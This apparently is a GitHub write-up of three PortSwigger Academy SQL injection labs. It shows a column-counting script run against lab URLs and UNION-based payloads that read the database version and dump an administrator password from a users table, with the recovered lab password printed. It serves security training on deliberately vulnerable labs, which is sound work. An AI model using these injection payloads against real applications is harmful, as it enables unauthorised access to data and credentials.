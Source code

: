 # PortSwigger Academy- SQL Injection

- Author: [Mateusz Głuchowski](https://github.com/hue1337)
- Site: [PortSwigger Academy](https://portswigger.net/)

# Lab: SQL injection attack, querying the database type and version on Oracle



## Steps:
1. Determining amount of columns by using our script `columns_amount.py`.

    ```bash
    python3 columns_amount.py --url https://0aaa00a503c074e683b2504f00b50012.web-security-academy.net/ --param category --amount 6
    ```

2. Looking into Oracle DB documentation to find the way how to determine the version.

    ```sql
    SQL>
    SQL>
    SQL> select banner from v$version;

    BANNER
    ----------------------------------------------------------------
    Oracle Database 10g Express Edition Release 10.2.0.1.0 - Product
    PL/SQL Release 10.2.0.1.0 - Production
    CORE    10.2.0.1.0      Production
    TNS for 32-bit Windows: Version 10.2.0.1.0 - Production
    NLSRTL Version 10.2.0.1.0 - Production

    SQL>

    ```

3. Preparing the payload:

    ```sql
    ' UNION SELECT banner, null FROM v$version -- -
    ```

4. Sending the request and completing the lab.


<div style="page-break-after: always;"></div>

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Steps:

1. Using our script (`columns_amount.py`) to determine amount of columns:
    
    ```bash
    python3 columns_amount.py --url https://0a5b005e038c2686836637ae00cd00c9.web-security-academy.net/filter?category=Accessories --param category --amount 5

    ```

2. Checking Microsoft documentation on determing DB version:
    - https://learn.microsoft.com/en-us/troubleshoot/sql/releases/find-my-sql-version

3. Preparing the payload:

    ```sql
    ' UNION SELECT @@version, null-- -
    ```

4. Sending the payload and completing the lab.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

1. Determining amount of columns and type of DB:

    ``` bash
    ┌──(hue1337㉿kali)-[~/…/GitHub/Portswigger-Academy/SQL_Injection/Scripts]
    └─$ python3 columns_amount.py --url https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/ --param category --amount 4
    https://0a5e00b003f6855980da8aa50037006c.web-security-academy.net/filter?category=%27%20order%20by%2010--%20-
    [+] Amount of columns: 2 
    [+] Postgre 
                                
    ```

2. From the PostgreSQL Docs we find out how to list the tables:

    ```sql
    select * from information_schema.tables
    ```

3. We can see table `users_xljros`. We gonna extract the password using following payloads:

    ```sql
    ' union select column_name,null from information_schema.columns where table_name='users_xljros'-- -

    ' union select password_wymahi, null from users_xljros where username_nbyctx='administrator'-- -
    ```

4. The password is: `gihs1spbm0jq86ghgc07`


